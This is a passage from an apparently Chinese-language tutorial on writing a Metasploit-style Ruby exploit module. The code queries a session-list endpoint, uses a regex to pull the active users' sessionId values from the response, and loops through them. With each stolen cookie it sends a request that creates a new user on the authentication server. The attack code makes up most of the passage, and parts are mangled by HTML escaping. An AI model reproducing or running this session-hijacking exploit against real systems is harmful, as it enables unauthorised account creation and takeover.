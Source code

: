 ```
res = send_request_cgi(

          'method'  =&gt; 'GET',

          'uri' =&gt; normalize_uri(target_uri.path, "session", "list", "allActiveSession"),

          )

    sescount = count_user(res.body,'"name"')

print_good("Currently #`{`sescount`}` active sessions have been detected.")
```

以上部分完成了第一步操作，接下来需要提取sessionId值。

“sessionId”：“和”“action”之间的部分是sessionId在响应中的值，我们可以使用scan ()函数来搜索正则表达式([\S\s]*?)来实现我们的目标。

```
cookies = res.body.scan(/sessionId":"([\S\s]*?)","action/)
```

在上述过程中，cookies[0]将是第一个用户的sessionId值，而cookies[1]则是第二个用户的sessionId值，此时计数+1。

现在，我们将应用一个非常简单的向量来进行开发。

我们将发送一个包含所有活动cookie值的用户创建请求，无论这些cookie中的哪一个被授权，它都将在我们想要的用户数据库中创建新用户。

在这里我选择使用while循环。例如，有7个活动用户，而这个循环将为cookies[int]变量中的值加上+1，并发出各种可能的请求。

```
while $i &lt;= sescount  do

       sessloop = cookies[$i]

       sessid = "SESSION=" + sessloop.to_s

       cookie = sessid.split('"]').join('').split('["').join('')

       $i +=1

       json_data=[........]

 

       res = send_request_raw(`{`

                                      'method' =&gt; 'POST',

                                        'ctype'  =&gt; 'application/json',

                                      'uri' =&gt; normalize_uri(target_uri.path, 'authentication-server', 'user', 'add'),

                                 'cookie' =&gt; cookie,

                                 'data' =&gt; json_data

                                     `}`)

     End
```
